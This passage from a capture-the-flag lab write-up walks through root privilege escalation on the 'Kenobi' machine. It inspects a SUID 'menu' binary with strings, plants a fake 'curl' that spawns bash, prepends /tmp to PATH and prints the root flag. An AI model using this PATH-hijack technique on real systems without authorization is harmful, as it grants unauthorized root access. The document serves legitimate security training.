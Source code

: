     ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :
    ```
- What is the root flag (/root/root.txt)?
    - Use `strings` to see what command inside `menu`.
        ```bash
        kenobi@kenobi:~$ strings /usr/bin/menu
        ***************************************
        1. status check
        2. kernel version
        3. ifconfig
        ** Enter your choice :
        curl -I localhost
        uname -r
        ifconfig
        ```
    - Modify `$PATH` value
        ```bash
        kenobi@kenobi:/tmp$ echo "/bin/bash" > curl
        kenobi@kenobi:/tmp$ chmod +x curl
        kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
        ```

    - Run the menu again and `cat` the `root.txt` file.
        ```bash
        kenobi@kenobi:/tmp$ menu

        ***************************************
        1. status check
        2. kernel version
        3. ifconfig
        ** Enter your choice :1
        To run a command as administrator (user "root"), use "sudo <command>".
        See "man sudo_root" for details.

        root@kenobi:/tmp# cat /root/root.txt
        177b3cd8562289f37382721c28381f02
        ```
